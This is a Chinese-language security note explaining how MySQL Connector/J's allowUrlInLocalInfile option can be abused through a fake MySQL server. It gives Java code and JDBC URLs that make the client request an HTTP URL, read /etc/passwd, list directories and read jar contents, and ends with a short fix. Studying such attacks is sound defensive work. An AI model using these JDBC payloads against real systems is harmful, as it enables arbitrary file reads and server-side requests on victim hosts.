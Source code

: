 ## allowUrlInLocalInfile的使用

### 原理

在`mysql-connector-java`包中存在一个`sendFileToServer`方法

> 当然，这个方法在不同的版本所处的包位置不同，我这里是使用的`5.1.48`版本

在 3.0.3版本开始存在 参见官方文档：[MySQL :: MySQL Connector/J 8.0 Developer Guide :: 6.3.5 Security](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-security.html)

![image-20220802144401213](allowUrlInLocalInfile的使用/image-20220802144401213.png)

在这里将会判断是否开始了选项，如果开启了就会进入`else`语句中，首先会判断是否存在`:`之后才会将其作为URL类构造函数的参数，后面进行请求

### 使用http协议

使用[工具](tools/MySQL_Fake_Server)搭建mysql服务

之后开启`8888`端口的监听

```java
//test.java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_http://127.0.0.1:8888/&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```

![image-20220802142831276](allowUrlInLocalInfile的使用/image-20220802142831276.png)

成功请求，说明可以获得回显的内容

### 使用file协议

#### 读取内网文件

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///etc/passwd&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```

#### 列目录

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///.&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```

### 使用jar协议

```java
jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///test.jar!/META-INF/MANIFEST.MF&maxAllowedPacket=655360&allowUrlInLocalInfile=true
```

## 修复

使用属性进行覆盖

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_E:/tools.md&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Properties properties = new Properties();
        properties.setProperty("allowLoadLocalInfile","false");
//        properties.setProperty("allowUrlInLocalInfile", "false");
        Connection con = DriverManager.getConnection(url, properties);
    }
}
```

